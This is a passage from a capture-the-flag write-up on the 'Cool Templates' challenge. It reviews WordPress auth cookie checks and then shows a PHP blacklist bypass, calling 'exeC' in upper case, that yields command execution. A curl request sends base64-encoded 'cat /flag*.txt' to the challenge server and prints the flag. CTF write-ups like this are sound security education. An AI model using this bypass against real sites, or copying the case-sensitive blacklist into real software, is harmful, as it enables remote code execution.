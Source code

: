 ```php
```

As you can see, the function compute the HMAC with the input of `$username|$expiration|$token` and with the key, which is the hash value of input `$username|$pass_frag|$expiration|$token`.

Huh, the key includes the user's 4 characters password fragment. But, the fragment is start from offset `8`. So, we need to brute force that password fragment if we don't know the user's password in order to pass the HMAC check.

However, even if we pass the HMAC check, it'll also check the session is really existed or not:

```php
function wp_validate_auth_cookie( $cookie = '', $scheme = '' ) {
    [...]
    $manager = WP_Session_Tokens::get_instance( $user->ID );
    if ( ! $manager->verify( $token ) ) {
        [...]
        do_action( 'auth_cookie_bad_session_token', $cookie_elements );
        return false;
    }
}
```

With that said, we can't forge our own session cookies that easily.

Huh... It seems like there's no functions that could gain RCE. Maybe there's another approach?

## Exploitation

Since the blacklisted functions check didn't convert our function name (`$template`) to lower-case characters, maybe we can leverage upper-case characters to bypass the check?

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Cool-Templates)-[2025.02.26|16:37:35(HKT)]
└> php -a
[...]
php > echo exeC("whoami");
siunam
```

Oh my god, PHP, why?!?!?

Anyways, we can now bypass the validations with just a simple upper-case characters trick.

Therefore, to get the flag, we can send the following request:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Cool-Templates)-[2025.02.26|16:46:16(HKT)]
└> curl --get http://52.77.81.199:9122/ --data "template=exeC&content=$(echo 'cat /flag*.txt' | base64)"
[...]
CTF{C00l_T3mpl4t3s_759eee4d}<script id="wp-block-template-skip-link-js-after">
```

- **Flag: `CTF{C00l_T3mpl4t3s_759eee4d}`**

## Conclusion

What we've learned:

1. Dynamic function call filter bypass via upper-case characters